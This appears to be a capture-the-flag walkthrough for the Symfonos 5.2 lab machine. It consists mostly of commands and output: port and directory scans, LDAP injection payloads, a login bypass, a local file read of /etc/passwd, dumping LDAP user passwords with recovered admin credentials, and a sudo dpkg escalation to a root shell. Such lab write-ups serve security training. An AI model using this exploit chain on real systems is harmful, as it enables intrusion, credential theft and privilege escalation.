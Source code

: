 https://kill-09.medium.com/symfonos-5-2-walkthrough-4fe57e33fcb4
https://github.com/trapp3rhat/LDAP-injection




└─$ sudo nmap -sT -A -Pn -n -T4 -p-  192.168.110.51
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-20 09:29 CEST
Nmap scan report for 192.168.110.51
Host is up (0.00072s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
MAC Address: 08:00:27:12:55:E3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 192.168.110.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.01 seconds


└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.110.51  -t 20 -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.110.51
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/09/20 09:34:45 Starting gobuster in directory enumeration mode
===============================================================
/home.php             (Status: 302) [Size: 0] [--> admin.php]
/admin.php            (Status: 200) [Size: 1650]             
/static               (Status: 301) [Size: 317] [--> http://192.168.110.51/static/]
/logout.php           (Status: 302) [Size: 0] [--> admin.php]                      
/portraits.php        (Status: 200) [Size: 165]                                    
/server-status        (Status: 403) [Size: 279]                                    
                                                                                   
===============================================================
2021/09/20 09:36:18 Finished
===============================================================


└─$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt  http://192.168.110.51/admin.php?username=FUZZ&password=passwd
└─$ wfuzz -c -z file,ldap -u  "http://192.168.110.51/admin.php?username=FUZZ&password=passwd"                                    
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.110.51/admin.php?username=FUZZ&password=passwd
Total requests: 20

=====================================================================
ID           Response   Lines    Word       Chars       Payload              
=====================================================================

000000019:   200        39 L     80 W       1663 Ch     "x' or name()='username' or 'x'='y"
000000014:   200        39 L     80 W       1663 Ch     "@*"                 
000000020:   200        39 L     80 W       1663 Ch     "http://192.168.110.51/admin.php?username=&password=passwd"
000000018:   200        39 L     80 W       1663 Ch     "admin*)((|userPassword=*)"
000000015:   200        39 L     80 W       1663 Ch     "|"                  
000000016:   200        39 L     80 W       1663 Ch     "admin*"             
000000003:   302        0 L      0 W        0 Ch        "*))%00"             
000000007:   200        39 L     80 W       1663 Ch     "*(|(objectclass=*))"
000000017:   200        39 L     80 W       1663 Ch     "admin*)((|userpassword=*)"
000000001:   200        39 L     80 W       1663 Ch     "*"
000000002:   200        39 L     80 W       1663 Ch     "*)(&"
000000006:   200        39 L     80 W       1663 Ch     "*(|(mail=*))"
000000012:   200        39 L     80 W       1663 Ch     "//"
000000011:   200        39 L     80 W       1663 Ch     "/"              
000000004:   200        39 L     80 W       1663 Ch     "*()|%26'"           
000000008:   200        39 L     80 W       1663 Ch     "*)(uid=*))(|(uid=*" 
000000005:   200        39 L     80 W       1663 Ch     "*()|&'"             
000000010:   200        39 L     80 W       1663 Ch     "*|"                 
000000009:   200        39 L     80 W       1663 Ch     "*/*"                
000000013:   200        39 L     80 W       1663 Ch     "//*"                

Total time: 0
Processed Requests: 20
Filtered Requests: 0
Requests/sec.: 0


```bash

curl -c cookie -G  --data-urlencode "username=*))%00" --data-urlencode "password=passwsd" http://192.168.110.51/admin.php
curl -b cookie http://192.168.110.51/home.php
curl -b cookie http://192.168.110.51/home.php?url=http://127.0.0.1/portraits.php
curl -b cookie http://192.168.110.51/home.php?url=/etc/passwd
curl -b cookie http://192.168.110.51/home.php?url=admin.php


```

```php

 $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

```


```bash

ldapsearch -x -LLL -h 192.168.110.51 -D 'cn=admin,dc=symfonos,dc=local' -w 'qMDdyZh3cT6eeAWD' -b 'dc=symfonos,dc=local'
nmap 192.168.110.51 -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local", ldap.password="qMDdyZh3cT6eeAWD"' 

```


```console


└─$ ldapsearch -x -LLL -h 192.168.110.51 -D 'cn=admin,dc=symfonos,dc=local' -w 'qMDdyZh3cT6eeAWD' -b 'dc=symfonos,dc=local'
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

```

```console


└─$ nmap 192.168.110.51 -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local", ldap.password="qMDdyZh3cT6eeAWD"'                                       1 ⨯

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-20 13:19 CEST
Nmap scan report for symfonos.local (192.168.110.51)
Host is up (0.00026s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: dc=symfonos,dc=local
|     dn: dc=symfonos,dc=local
|         objectClass: top
|         objectClass: dcObject
|         objectClass: organization
|         o: symfonos
|         dc: symfonos
|     dn: cn=admin,dc=symfonos,dc=local
|         objectClass: simpleSecurityObject
|         objectClass: organizationalRole
|         cn: admin
|         description: LDAP administrator
|         userPassword: {SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm
|     dn: uid=zeus,dc=symfonos,dc=local
|         uid: zeus
|         cn: zeus
|         sn: 3
|         objectClass: top
|         objectClass: posixAccount
|         objectClass: inetOrgPerson
|         loginShell: /bin/bash
|         homeDirectory: /home/zeus
|         uidNumber: 14583102
|         gidNumber: 14564100
|         userPassword: cetkKf4wCuHC9FET
|         mail: zeus@symfonos.local
|_        gecos: Zeus User

Nmap done: 1 IP address (1 host up) scanned in 0.16 seconds

```


```console

zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg

```


```console

sudo /usr/bin/dpkg -l
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)


```


